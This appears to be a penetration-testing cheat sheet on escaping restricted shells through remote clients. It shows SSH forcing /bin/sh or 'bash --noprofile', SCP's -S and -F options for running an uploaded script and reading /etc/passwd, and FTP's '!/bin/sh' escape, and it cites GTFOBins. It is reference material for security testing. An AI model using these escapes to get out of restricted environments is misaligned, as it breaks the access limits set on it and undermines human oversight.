 # Remote Clients

## 01 - OpenSSH

### 1.1 - SSH

SSH on your machine to execute commands before the shell is loaded.

```
$ ssh [-p <PORT>] <username>@<IP> -t "/bin/sh"
```

Start the shell without loading "rc" profile (where most limits are configured):

```
$ ssh [-p <PORT>] <username>@<IP> -t "bash --noprofile"
```

Try to execute other commands.

```
$ ssh [-p <PORT>] <username>@<IP> <commands>
```

Sometimes just disabling pseudo-TTY allocation (`-T`) will work.

```
$ ssh [-p <PORT>] -T <username>@<IP>
```

### 1.2 - SCP

SCP: On a box that you control make a simple wrapper script, then upload it:

```
$ cat /tmp/id.sh
#!/bin/sh
/usr/bin/id

$ chmod +x /tmp/id.sh

$ scp /tmp/id.sh untrusted@demobox:
```

Once the file is uploaded, run it with scp:

```
untrusted@demobox ~ $ scp -S /home/untrusted/id.sh x y:
uid=1008(untrusted) gid=1014(untrusted) groups=1014(untrusted)
```

SCP: This options can be used to `cat` certain types of file:

```
$ scp -F /etc/passwd x y:
```

works best in a wrapper

```
$ scp -S /tmp/getMeOut.sh x y:
```

## 02 - FTP

```
$ ftp
ftp> !/bin/sh

ftp> !/bin/bash
```

---
## References

### GTFOBins

- [GTFOBins: SSH](https://gtfobins.github.io/gtfobins/ssh/)